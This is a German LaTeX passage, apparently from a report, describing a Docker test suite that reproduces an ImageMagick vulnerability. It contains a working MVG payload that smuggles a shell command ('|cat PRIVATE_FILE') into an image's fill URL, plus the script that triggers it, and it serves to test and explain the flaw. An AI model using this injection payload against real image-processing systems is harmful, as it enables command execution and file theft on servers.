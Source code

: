 Es wird eine Datei erstellt, die per Exploit ausgelesen werden soll.

\begin{lstlisting}[language=Text, caption=Geheime Datei in Testsuite,label={lst:testsuiteprivatefile}]
> cat PRIVATE_FILE
PRIVATE-CONTENT
\end{lstlisting}


Diese Datei wird im nachfolgend von ImageMagick aufgerufen und enthält den Code,
welcher den Inhalt der PRIVATE\_FILE ausgibt.

\begin{lstlisting}[language=Text, caption=exploit.mvg in Testsuite,label={lst:testsuiteexploit}]
push graphic-context
viewbox 0 0 640 480
fill 'url(https://testimage.png"|cat "PRIVATE_FILE)'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Eine Beschreibung, warum der hinterlegte Code ausgeführt wird, ist im Kapitel "`Details der Schwachstelle"' zu finden .



\begin{lstlisting}[language=Text, caption=entryPoint.sh in Testsute,label={lst:testsuiteentry}]
#!/bin/bash

identify exploit.mvg
echo 'AFTER_IDENTIFY'
\end{lstlisting}
\vspace{5mm}

Dieses Shell-Script wird von jedem Dockerfile aufgerufen, um den Exploit auszunutzen.
Dabei wird die identify-Funktion von Imagemagick angesprochen.
Das nachfolgende echo wird als Flag benutzt, um sicherzustellen, dass entryPoint.sh auch wirklich aufgerufen wird.
Dies wird später in test.sh etwas genauer erläutert.



Hier handelt es sich um ein valides JPEG-Bild File,
welches bei dem eigentlichen Test nicht direkt benötigt,
jedoch zu debug zwecken nützlich ist,
um die generelle Funktionsfähigkeit von Imagemagick und dem Identify Befehl zu testen.

\newpage


Mit diesem Script wird der Test einer speziellen Umgebung angestoßen.
Hierbei wird der Name des Dockerfiles als ersten Parameter übergeben.

